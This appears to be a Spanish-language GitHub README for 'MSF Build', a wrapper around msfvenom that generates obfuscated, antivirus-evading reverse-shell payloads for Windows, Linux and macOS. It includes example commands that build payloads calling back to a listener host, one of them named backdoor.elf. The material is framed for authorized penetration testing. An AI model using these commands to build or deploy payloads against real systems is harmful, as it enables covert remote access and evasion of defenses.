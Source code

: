# 🛠️ MSF Build - Advanced Payload Generator

*Professional tool for generating obfuscated payloads using Shikata Ga Nai encoder*

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` bajo el capó y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** (x86)
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/afsh4ck/MSF-Build.git
cd MSF-Build
```

## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}     Sistema operativo objetivo
  --arch {x86,x64}               Arquitectura objetivo
  --type {exe,elf,macho,python}  Tipo de archivo de salida
  --lhost IP                     Dirección IP para conexión reversa
  --lport PORT                   Puerto para conexión reversa
  -o, --output OUTPUT            Nombre del archivo de salida
  -i, --iterations ITERATIONS    Iteraciones de ofuscación (solo x86, default: 5)
  -h, --help                     Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar payload para Windows x86:
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar payload para Linux x64:
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar payload para macOS:
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```

## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos EXE
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🤝 Contribuir
- Haz fork del proyecto
- Crea una rama (git checkout -b feature/nueva-funcionalidad)
- Haz commit de tus cambios (git commit -am 'Añadir funcionalidad X')
- Push a la rama (git push origin feature/nueva-funcionalidad)
- Abre un Pull Request

### Creado con ❤️ por @afsh4ck 
